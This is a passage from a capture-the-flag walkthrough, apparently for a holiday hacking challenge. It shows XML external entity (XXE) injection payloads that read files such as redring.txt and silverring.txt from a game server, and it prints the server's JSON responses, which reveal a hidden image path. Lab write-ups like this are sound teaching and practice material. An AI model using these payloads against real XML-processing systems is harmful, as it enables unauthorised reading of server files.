 Obtained response.

```
{
  "appResp": "I love these fancy blue rings! You can see we have two of them. Not magical or anything, just really pretty.^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.",
  "droppedOn": "none",
  "visit": "none"
}
```

Performed XXE injection based on modified path.

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/redring.txt"> ]>
<root>
  <imgDrop>&xxe;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

Obtained response.

```
{
  "appResp": "Hmmm, you still seem awfully interested in these rings. I can't blame you, they are pretty nice.^Oooooh, I can just tell she'd like to talk about them some more.",
  "droppedOn": "none",
  "visit": "none"
}
```

Guess that `silverring.txt` may exist as well. Performed XXE injection on the guessed path.

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/silverring.txt"> ]>
<root>
  <imgDrop>&xxe;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

Obtained response.

```
{
  "appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
}
```
